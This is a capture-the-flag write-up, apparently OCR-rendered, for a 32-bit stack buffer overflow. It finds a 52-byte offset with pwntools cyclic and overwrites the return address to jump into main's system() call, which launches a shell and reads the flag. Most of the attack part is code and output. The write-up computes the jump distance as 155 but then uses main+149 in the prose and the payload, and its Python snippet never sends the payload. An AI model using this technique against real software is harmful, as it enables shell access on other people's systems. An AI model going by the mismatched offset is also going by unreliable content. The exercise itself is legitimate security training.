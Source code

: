 

``main`` use return value from ``vuln`` to determine the final output. But return from ``vuln`` is not going to be ``true`` due to the logic below.


```c
int good = 0;
  for (int i = 0; buf[i]; i++) {
  good &= buf[i] ^ buf[i];
}

return good

```

We need ``main`` to go to the branch that call ``system`` to launch a shell. How about we just jmp to the critical block of code?

```asm
080485df <main>:
 80485df:       8d 4c 24 04             lea    0x4(%esp),%ecx
 80485e3:       83 e4 f0                and    $0xfffffff0,%esp
 80485e6:       ff 71 fc                pushl  -0x4(%ecx)
 80485e9:       55                      push   %ebp
...

 8048674:       83 c4 10                add    $0x10,%esp
 8048677:       83 ec 0c                sub    $0xc,%esp
 804867a:       68 99 87 04 08          push   $0x8048799
 804867f:       e8 cc fd ff ff          call   8048450 <system@plt>
```

The ``system`` call starts at *0x804867a*, we can calculate the distance between ``main`` and the call, so the destination would be ``main+149``.

```python
distance = 0x804867a-0x80485df = 155
```

The padding can be found by ``pwn.cyclic``, feed the program with *64* bytes of cyclic string.

```python
>>> pwn.cyclic(64)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa'
```

Check segfault message in ``dmesg``, notice the ``6161616e`` part? The padding is ``52`` in this case.

```bash
segfault at 6161616e ip 000000006161616e sp 00000000ffc07c30 error 14 in libc-2.27.so[f7d69000+1d2000]
```

```python
>>> pwn.cyclic_find(0x6161616e)
52
```

So the payload is ``52 bytes of garbage + address of system call block``.

```python
payload = b'A'*52
payload += pwn.p32(elf.sym["main"]+149)

pr.sendline("cat flag.txt")
print(pr.readall(2).decode())
```
